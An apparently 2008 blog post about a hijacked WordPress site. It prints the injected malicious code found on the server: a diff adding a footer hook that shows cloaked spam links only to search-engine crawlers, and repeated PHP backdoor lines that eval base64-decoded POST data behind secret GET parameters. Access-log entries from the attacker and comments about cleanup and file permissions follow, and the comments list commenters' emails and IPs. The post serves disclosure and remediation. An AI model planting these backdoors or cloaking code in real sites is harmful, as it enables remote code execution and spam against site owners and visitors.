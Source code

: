 ```yaml
---
title: wpc7c16b8466d864eeefd20050625c7775
comments:
  - author: Albert
    email: albert.lash@savonix.com
    ip: 74.94.149.33
    url:
    date: 02/25/2008 12:57:10 PM
    text: >
      I've added a bevy of IP CIDR blocks to my POST restrictions, and I'm definitely going to review all of Wordpress for this.
  - author: Albert
    email: albert.lash@savonix.com
    ip: 75.69.165.231
    url:
    date: 02/25/2008 06:40:58 PM
    text: >
      As far as I can tell, this is a well know vulnerability, and Automattic has since fixed the issue. In my case, to remedy the situation, I changed the permissions to read only in wp-includes, wp-admin, as well as reviewed all the files to remove the injected scripts.
  - author: Michi
    email: fritzbrause@hotmail.com
    ip: 217.87.16.84
    url:
    date: 03/06/2008 08:26:46 PM
    text: >
      I found this by searching "194.110.162.23" because my wordpress got hijacked as well. I stil don't really know what and how that happened. Do you have any more information? How did they get access?
  - author: Albert
    email: albert.lash@savonix.com
    ip: 75.69.165.231
    url:
    date: 03/06/2008 09:32:00 PM
    text: >
      Hi Michi, there are probably a bunch of different ways its done, but in my case, here's what I *think* happened:<br/><br/>1. Abuser registered and gained access to some basic functionality -or- used a cookie to execute some malicious code, not sure<br/>2. My server files had incorrect permissions - the web server was able to write to the wp-includes directory and files<br/>3. Abuser modified files to act as a gateway to execute their own php scripts (and shell scripts?) on server<br/><br/>I made several changes to my setup, an important one being to change all the wordpress php files to be only readable by the webserver.
date: 2008-02-25
tags: wordpress
---
```

<pre>--- default-filters.php (revision 6)
+++ default-filters.php (working copy)
@@ -42,6 +42,26 @@ add_filter('comment_flood_filter', 'wp_throttle_comment_flood', 10, 3);
++add_action('wp_footer','wpc7c16b8466d864eeefd20050625c7775');
+function wpc7c16b8466d864eeefd20050625c7775() {
+        $seau=array("google","yahoo","slurp","msn","live","ask","altavista","aol");
+       $sebot=""; foreach($seau as $ua) if(strpos(strtolower($_SERVER['HTTP_USER_AGENT']),$ua)!==false){ $sebot="1"; break; }
+       if(!($sebot==1 && sizeof($_COOKIE)==0)) return;
+       @include('./wp-includes/class-mail.php');
+       if(sizeof($wparr)>0){
+               shuffle($wparr);
+               echo "<div id=\"_wp_footer\">";
+               foreach($wparr as $k=>$v){
+                       echo "<a href=\"".$v['url']."\" title=\"".ucwords($v['key'])."\">".ucwords($v['key'])."</a>\n";
+                       if($i++==$inum) break;
+               }
+               echo "</div>".$_footer;
+       }
+}
+++</pre>

<pre>&lt;?php if($_GET['f41887163354da50']=="28cbddc8f3bcd0f7"){ eval(base64_decode($_POST['file'])); exit; } ?>&lt;?php if($_GET['6fed0a04901ae41f']=="a1ceef3a748b981b"){ eval(base64_decode($_POST['file'])); exit; } ?>&lt;?php if($_GET['666a6114308099d3']=="a5522ccd36231771"){ eval(base64_decode($_POST['file'])); exit; } ?>&lt;?php if($_GET['970a0ddc6270e0ca']=="178d4b7fa8fc73a4"){ eval(base64_decode($_POST['file'])); exit; } ?>&lt;?php if($_GET['476cec30ae48ed13']=="1682480ecf14ff65"){ eval(base64_decode($_POST['file'])); exit; } ?></pre>

Bad news. Who is responsible?

<pre>www.infonomix.org 194.110.162.23 [25/Feb/2008:07:21:06 -0500] "POST /blog/wp-includes/default-filters.php?970a0ddc6270e0ca=178d4b7fa8fc73a4 HTTP/1.1" 200 179

www.infonomix.org 194.110.162.23 [25/Feb/2008:07:21:07 -0500] "POST /blog/ HTTP/1.1" 200 27176</pre>

¥

